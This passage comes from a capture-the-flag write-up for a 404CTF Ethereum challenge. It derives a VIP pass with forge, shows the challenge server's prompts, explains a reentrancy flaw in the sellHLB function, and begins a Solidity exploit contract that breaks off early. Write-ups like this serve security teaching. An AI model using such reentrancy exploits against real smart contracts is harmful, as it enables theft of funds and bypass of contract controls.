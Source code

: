 This contract can be executed with the `forge` command:

```bash
$ forge run test/Converter.t.sol --fork-url http://127.0.0.1:8545 --sig "convert()"
[⠒] Compiling...
[⠆] Compiling 6 files with 0.8.13
[⠰] Solc 0.8.13 finished in 2.05s
Compiler run successful
Script ran successfully.
Gas used: 2108
== Return ==
== Logs ==
  test2: : 38330739118242568697380065849010598905319469511070891991863930858741423657088
```

Unfortunately, the vipPass is not the only thing that is required, we need to have an address that is VIP:

```bash
nc challenge.404ctf.fr 30885
Si vous êtes un membre, appuyez sur entrée. Si vous êtes un VIP, rentrez votre pass :
38330739118242568697380065849010598905319469511070891991863930858741423657088
Nous allons maintenant vérifier que vous êtes bien un vip.
Veuillez rentrer l'adresse ethereum avec laquelle vous êtes vip :
```

## Pwning the contract

To get VIP we have to pass two requires: `require(seniority[msg.sender] >= 10 * 365 days, "Revenez dans quelque temps.");` and `require(seniority[msg.sender] < 150 * 365 days, "Vous vous faites vieux, laissez-nous la place.");`.

The only function that update the seniroity mapping is `function sellHLB(uint256 numTokens)`. This function can only be called once a year and if we have already some HLB tokens. Before updating the `lastWithdrawTime` variable to restrict the call to that function, the fallback to our contract is called, which can call the `sellHLB(uint256 numTokens)` function. In other words, we can call the function `sellHLB(uint256 numTokens)` multiple times before the `lastWithdrawTime` function is updated, this is a reentrency attack!

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "ds-test/test.sol";
import "forge-std/Test.sol";

interface IHallebardeToken {
    function sellHLB(uint256 numTokens) external;

    function seniorityOf(address tokenOwner) external view returns (uint256);

    function balanceOf(address tokenOwner) external returns (uint256);

    function buyHLB() external payable;

    function senior() external view returns (uint256);
}

contract TokenTest is Test {
    uint256 i = 0;
    IHallebardeToken ht =
   IHallebardeToken(address(0xD5c0873f147cECF336fEEF1a28474716C745Df86));

    constructor() payable {}

    function pwn() public {
        ht.buyHLB{value: 12}();
```